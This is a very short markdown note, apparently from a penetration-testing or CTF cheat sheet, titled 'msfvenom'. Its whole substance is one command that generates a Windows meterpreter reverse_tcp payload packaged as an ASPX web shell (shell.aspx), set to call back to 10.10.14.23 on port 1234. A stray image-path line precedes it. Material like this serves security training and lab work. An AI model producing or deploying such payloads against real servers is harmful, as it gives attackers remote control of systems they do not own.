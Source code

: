 # msfvenom

## aspx
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=1234 -f aspx -o shell.aspx`
